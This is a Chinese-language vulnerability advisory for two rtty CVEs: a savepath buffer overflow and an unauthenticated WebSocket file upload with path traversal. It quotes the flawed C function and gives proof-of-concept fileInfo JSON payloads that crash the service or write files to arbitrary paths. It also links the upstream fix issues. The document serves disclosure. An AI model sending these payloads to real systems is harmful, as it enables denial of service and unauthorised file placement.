

# CVE-2025-56708&CVE-2025-56709
## 【CVE-2025-56709】savepath 缓冲区溢出
### 漏洞概述
在 rtty <=v9.0.0 版本中，fileinfo 方法存在溢出漏洞，该漏洞会导致数据不断写入全局变量savepath，从而触发缓冲区溢出。
### 漏洞分析
savepath 可以不断被写，导致溢出
- 【1】可以看出name其实使用是 savepath 的内存空间
- 【2】如果mount check 不通过，就会进入check_space_fail流程 
- 【3】流程就会导致失败，但是buffer_pull 会一直向name也就是savepath 空间加数据
```c
static void start_download_file(struct file_context *ctx, struct buffer *info, int len)
{
    char *name = savepath + strlen(savepath);【1】
    struct mntent *ment;
    struct statvfs sfs;
    char buf[512];
    int fd;

    ctx->total_size = ctx->remain_size = buffer_pull_u32be(info);

    ment = find_mount_point(savepath);
    if (ment) {
        uint64_t avail;

        if (!strcmp(ment->mnt_type, "ramfs")) {
            struct sysinfo si;

            if (sysinfo(&si)) {
                log_err("download file fail: '%s'\n", strerror(errno));
                goto check_space_fail;
            }

            avail = si.freeram;
        } else if (!statvfs(ment->mnt_dir, &sfs)) {
            avail = sfs.f_bavail * sfs.f_frsize;
        } else {
            log_err("download file fail: '%s'\n", strerror(errno));
            goto check_space_fail;
        }

        if (ctx->total_size > avail) {
            log_err("download file fail: no enough space\n");
            goto check_space_fail;
        }
    } else {
        log_err("download file fail: not found mount point of '%s'\n", savepath);
        goto check_space_fail;【2】
    }

    buffer_pull(info, name, len - 4);

    if (!access(savepath, F_OK)) {
        send_file_control_msg(ctx->ctlfd, RTTY_FILE_MSG_ERR_EXIST, NULL, 0);
        log_err("the file '%s' already exists\n", name);
        goto open_fail;
    }

    fd = open(savepath, O_WRONLY | O_TRUNC | O_CREAT, 0644);
    if (fd < 0) {
        send_file_control_msg(ctx->ctlfd, RTTY_FILE_MSG_ERR, NULL, 0);
        log_err("create file '%s' fail: %s\n", name, strerror(errno));
        goto open_fail;
    }

    log_info("download file: %s, size: %u\n", savepath, ctx->total_size);

    if (fchown(fd, ctx->uid, ctx->gid) < 0)
        log_err("fchown %s fail: %s\n", savepath, strerror(errno));

    if (ctx->total_size == 0)
        close(fd);
    else
        ctx->fd = fd;

    memcpy(buf, &ctx->total_size, 4);
    strcpy(buf + 4, name);

    send_file_control_msg(ctx->ctlfd, RTTY_FILE_MSG_INFO, buf, 4 + strlen(name));

    return;

check_space_fail:
    send_file_control_msg(ctx->ctlfd, RTTY_FILE_MSG_NO_SPACE, NULL, 0);
    buffer_pull(info, name, len - 4);【3】
    
open_fail:
    file_context_reset(ctx);
}
```
### 漏洞POC
- 使用websocket不断发数据就可以将服务给干崩掉（甚至可能RCE）
```json
{"type":"fileInfo","name":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","size":50}
```
### 漏洞修复
https://github.com/zhaojh329/rtty/issues/139
## 【CVE-2025-56708】未授权文件上传
### 漏洞概述
rtty <=v9.0.0 版本存在目录穿越漏洞。在交互协议中，fileinfo 方法存在逻辑漏洞，攻击者可通过劫持 WebSocket 并调用 fileinfo 方法，在无需用户登录的情况下将文件上传到系统中的任意路径。
### 漏洞POC
- 劫持websocket程序流，通过fileInfo方法，可以在未登录用户的情况下，上传文件到系统任意目录。
- 指定挂载目录
```json
{"type":"fileInfo","name":"home/xk/xxx/xxx/fuck1","size":50}
```
- 指定文件
```json
{"type":"fileInfo","name":"home/xk/xxx/xxxx/test/rtty/rtty/build/src/hello1","size":50}
```
- 在服务端生成文件


### 漏洞修复
https://github.com/zhaojh329/rtty/issues/140